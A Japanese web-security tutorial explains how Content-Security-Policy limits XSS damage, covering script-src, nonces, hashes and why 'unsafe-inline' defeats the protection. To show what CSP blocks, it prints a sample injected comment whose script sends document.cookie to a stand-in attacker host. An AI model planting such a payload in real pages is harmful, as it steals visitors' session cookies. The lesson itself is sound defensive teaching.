

# CSP — XSS を防ぎきれない前提で被害を抑える

## 今日のゴール

- CSP が「実行してよいスクリプトの出どころ」をブラウザに宣言するヘッダーだと知る
- CSP のもとではインラインスクリプトは許可制になり、注入されても実行されないと知る
- エスケープが破られたときに備えて防御を重ねる、多層防御の考え方を知る

## 1 か所の見落としで抜け穴ができる

コメント欄に入力された文字列がそのまま HTML に埋め込まれると、閲覧者のブラウザで攻撃者の JavaScript が実行されてしまいます。これが **XSS**（クロスサイトスクリプティング）です。防御の基本は、`<` を `&lt;` のようなただの文字に変換する**エスケープ**で、React なら JSX に書いた文字列を自動でエスケープしてくれます。

それなら安心かというと、そうも言い切れません。エスケープは**出力するすべての場所で漏れなく効いていて初めて成立する**防御です。

- `dangerouslySetInnerHTML` のように、自動エスケープの外に出る書き方が混ざる
- `href` に入れたユーザー入力の `javascript:` スキームのように、エスケープでは防げない経路がある
- 何年も改修が続くコードベースで、全部の出力箇所を完璧に保ち続けるのは難しい

1 か所でも漏れれば XSS は成立します。そこで、注入を防ぐ対策とは別に、もう 1 つ発想の違う防御を重ねます。**万一スクリプトが注入されても、ブラウザに実行させない**。それが今日の主役、CSP です。

エスケープが第一の防御、CSP は第一の防御が破られたときの第二の防御。このように性質の違う守りを重ねる考え方を**多層防御**（defense in depth）と呼びます。

## ブラウザに許可リストを宣言する CSP

**CSP**（Content-Security-Policy）は、HTTP レスポンスヘッダーの 1 つです。サーバーがページを返すときにこのヘッダーを付けると、ブラウザに「このページで実行してよいスクリプトの出どころはここだけ」と宣言できます。

```http
Content-Security-Policy: script-src 'self'
```

`script-src` は「スクリプトの許可元」を指定するディレクティブ（設定項目）です。`'self'` は「このページと同じオリジン、つまり自分のサイトから配信されるスクリプトだけ実行してよい」という意味になります。

ヘッダーを自由に付けられない環境では、HTML の `<meta>` タグでも同じ宣言ができます。

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```

ディレクティブは `script-src` 以外にも、画像の取得元を絞る `img-src`、すべての種類の既定値になる `default-src` などがあります。ただし XSS 対策として要になるのは `script-src` です。

## 注入されたスクリプトが実行されない流れ

エスケープに漏れがあり、攻撃者のコメントがそのまま HTML に埋め込まれてしまったとします。

```html
いい記事ですね！<script>fetch('https://evil.example/?steal=' + document.cookie)</script>
```

CSP がなければ、このスクリプトは閲覧者のブラウザで実行されます。`script-src 'self'` が宣言されていると、結果が変わります。

- 注入された `<script>` は HTML に直接書かれた**インラインスクリプト**であり、後述するとおり CSP のもとでは許可制なので、実行されない
- 攻撃者が自分のサーバーのファイルを読み込ませようと `<script src="https://evil.example/x.js">` を注入しても、`'self'` 以外の出どころなので、読み込まれない



**注入はされたが、実行されない。** ページのソースを見れば攻撃者の `<script>` は残っているのに、被害だけが起きない状態を作れます。これが CSP の防御です。

ブロックされたとき、ブラウザは開発者ツールのコンソールにこんなエラーを出します。

```
Refused to execute inline script because it violates the following
Content Security Policy directive: "script-src 'self'".
```

どこかのサイトの開発者ツールを開いて、この赤いエラーを見かけたことがあるかもしれません。あれは CSP がスクリプトを 1 つ止めた跡です。

## インラインスクリプトが許可制になる理由

CSP で `script-src` を宣言すると、インラインスクリプトはデフォルトで実行されなくなります。`<script>...</script>` と HTML に直接書かれたコードだけでなく、`onclick="..."` や `onerror="..."` のような属性の中の JavaScript も同じ扱いです。

これは不便な仕様に見えて、CSP の防御力の核心です。攻撃者が入力欄から注入できるスクリプトは、まさにこのインラインスクリプトだからです。「自分のサイトのファイルとして配信されるスクリプトは許可し、HTML に直接書かれたスクリプトは信用しない」という線引きが、注入されたコードだけを狙い撃ちでブロックします。

## 正当なインラインスクリプトを nonce で許可する

線引きが厳しいぶん、自分たちが意図して書いた正当なインラインスクリプトまで止まってしまいます。基本の対処はスクリプトを外部ファイルに移すことですが、どうしてもインラインで書きたい場合のために、個別に許可する仕組みが 2 つあります。

1 つ目が **nonce**（ノンス）です。レスポンスごとに変わる使い捨てのランダムな値を、ヘッダーとスクリプトタグの両方に載せます。

```http
Content-Security-Policy: script-src 'self' 'nonce-Kx7fQ2mZ9pLw'
```

```html
<script nonce="Kx7fQ2mZ9pLw">
  console.log("nonce が一致するので、このスクリプトは実行される");
</script>
```

ブラウザは、ヘッダーの値と一致する `nonce` 属性を持つスクリプトだけを実行します。攻撃者はコメントを投稿する時点で、将来の閲覧者に返されるレスポンスの nonce を知りようがないので、正しい nonce 付きのスクリプトを注入できません。値がレスポンスごとに変わることが前提で、固定の値を使い回すと攻撃者にも書けてしまいます。

2 つ目が **hash** です。許可したいスクリプトの中身から計算したハッシュ値（SHA-256 など）をヘッダーに載せます。中身が 1 文字でも違えばハッシュは一致しないので、そのスクリプトだけがピンポイントで許可されます。ビルド時に中身が確定する静的サイトに向いた方式です。

Next.js では `next.config.ts` の `headers` 設定でこのヘッダーを付けられます。nonce のようにレスポンスごとに値を変える場合は、ミドルウェアで生成して埋め込む構成になります。

## 防御を打ち消す unsafe-inline

`script-src` に書ける値には、`'unsafe-inline'` というものもあります。意味は「インラインスクリプトをすべて許可する」。これを指定すると、注入されたスクリプトも実行されるようになり、CSP ヘッダーを付けていても XSS への防御はほぼ消えます。名前に unsafe と付いているのはそのためです。

```http
Content-Security-Policy: script-src 'self' 'unsafe-inline'
```

既存のサイトに後から CSP を入れると、正当なインラインスクリプトが動かなくなり、手っ取り早く `'unsafe-inline'` を足したくなります。その結果、ヘッダーは付いているのに守れていない CSP が生まれます。設定の中に `'unsafe-inline'` の文字を見つけたら、「この CSP は XSS を止められるのか」と疑ってかまいません。

この語彙があると、AI にも「CSP で `script-src` を絞って、正当なインラインスクリプトは nonce で許可して。`'unsafe-inline'` は使わないで」と具体的に指示できます。

## まとめ

- CSP は HTTP レスポンスヘッダーで、実行してよいスクリプトの出どころをブラウザに宣言する仕組み
- インラインスクリプトは許可制になるため、注入されたスクリプトは実行されない（正当なものは nonce や hash で許可）
- `'unsafe-inline'` は防御をほぼ打ち消すので、設定で見かけたら疑う
